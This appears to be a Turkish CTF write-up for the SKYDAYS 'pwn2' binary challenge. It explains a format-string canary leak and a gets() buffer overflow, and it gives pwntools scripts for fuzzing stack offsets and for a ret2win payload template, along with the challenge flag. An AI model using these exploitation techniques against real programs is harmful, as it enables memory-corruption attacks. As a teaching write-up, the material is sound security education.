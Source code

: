 # pwn2 - PWN

flag: `SKYSEC{C0NGR4TS_Y0U_3SC4P3D_TH3_M4TR1X}`

# Writeup
# Giriş

Bu yazı YTÜ SKYLAB kulübünün düzenlediği SKYDAYS etkinliğindeki CTF
yarışmasındaki sorunun çözümünü anlatmaktadır. Sorunun tek çözümü bu
değildir, başka çözümler olabilmektedir.

# Soru

Bize verilen dosyayı çalıştırdığımızda şöyle bir ekran karşımıza çıkmakta:

![Untitled](SKYDAYS%20CTF%20PWN-02%200c4695a69c1b43508fafd418fbb9a8eb/Untitled.png)

Bizden iki kere girdi alıyor ve ilk girdimizi ekrana yazdırıyor.

# Çözüm

Dosyayı inceleyelim:

![Untitled](SKYDAYS%20CTF%20PWN-02%200c4695a69c1b43508fafd418fbb9a8eb/Untitled%201.png)

![Untitled](SKYDAYS%20CTF%20PWN-02%200c4695a69c1b43508fafd418fbb9a8eb/Untitled%202.png)

Dosyamız 64-bit ve Canary aktif.

![Untitled](SKYDAYS%20CTF%20PWN-02%200c4695a69c1b43508fafd418fbb9a8eb/Untitled%203.png)

Dosyadaki vuln() fonksiyonumuza bakarsak burada iki adet zaafiyetle karşılaşıyoruz:
1-printf(buffer); kodu bizim bellekten değer okumamıza kapı açıyor.
2-gets(buffer); kodu buffer’ın üzerine istediğimiz değerleri yazmamızı sağlıyor.

![Untitled](SKYDAYS%20CTF%20PWN-02%200c4695a69c1b43508fafd418fbb9a8eb/Untitled%204.png)

![Untitled](SKYDAYS%20CTF%20PWN-02%200c4695a69c1b43508fafd418fbb9a8eb/Untitled%205.png)

Yukarıdaki iki fonksiyona baktığımızda ise şunları görüyoruz:
*flag* fonksiyonu anlaşılabildiği üzere flag’imizi içeriyor fakat daha öncesinde “What is the password?” diye bir çıktı alıyoruz. Yani bir tür şifreye ihtiyacımız var.
*notaflaglol* fonksiyonumuzun bize verdiği çıktıdan önce “What is this string for?” çıktısını alıyoruz. Bu fonksiyondan elde edeceğimiz değer bizim şifremiz olabilir.

Tüm bu analizin sonucunda çözüm yolumuzu oluşturabiliriz:
1-Canary aktif. Programı manipüle ederken canary’i korumalıyız.
2-Buffer overflow ile önce *notaflaglol* fonksiyonuna erişmeli ve şifreyi almalıyız.
3-Daha sonra yine buffer overflow ile *flag* fonksiyonuna erişip şifreyi girip bayrağı elde etmeliyiz.

Bunun için önce bellekten değerleri okuyup canary’nin değerini öğrenmeliyiz. Bunu şöyle bir script ile yapabiliriz:

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./chal', checksec=False)

# Let's fuzz x values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendline('%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline().decode()
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass

```

Peki bunlardan hangisinin canary olduğunu nasıl bileceğiz? Canary için aradığımız değer “00’ ile bitmeli, “ff” veya “f7” ile başlamamalı. Script’i çalıştırdığımızda bu koşulları sağlayan ve değişmeyen değer bizim olası canary’miz olacak. Canary’i bulduktan sonra şu tarz bir script template’i ile istediğimiz bir fonksiyona erişebiliriz:

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Set up pwntools for the correct architecture
exe = './chal'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 00  # Buraya BOF için offset'imizi yazıyoruz.

# Leak canary value (NUMBERX on stack)
io.sendlineafter(b'!', '%{}$p'.format('NUMBERX').encode())
io.recvline()  # Blank line
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

# Build payload (ret2win)
payload = flat([
    offset * b'A',  # BOF için offset/garbage value
    canary,  # Canary'miz
    00 * b'A',  # Garbage value (NOT!: buradaki değer 32bit/64bit mimarilerde farklılık gösterecektir)
    elf.symbols.hacked  # dönmek istediğimiz fonksiyon: önce notaflaglol sonra flag
])

# Send the payload
io.sendlineafter(b':P', payload)

# Get our flag/shell
io.interactive()

```

Bunları dosyamıza göre ayarladığımızda elde edeceğimiz çıktılar:
Şifremiz:

![Untitled](SKYDAYS%20CTF%20PWN-02%200c4695a69c1b43508fafd418fbb9a8eb/Untitled%206.png)

Flag:

![Untitled](SKYDAYS%20CTF%20PWN-02%200c4695a69c1b43508fafd418fbb9a8eb/Untitled%207.png)

---

Daha fazla benzer örnek için bakabilirsiniz: [https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94](https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94)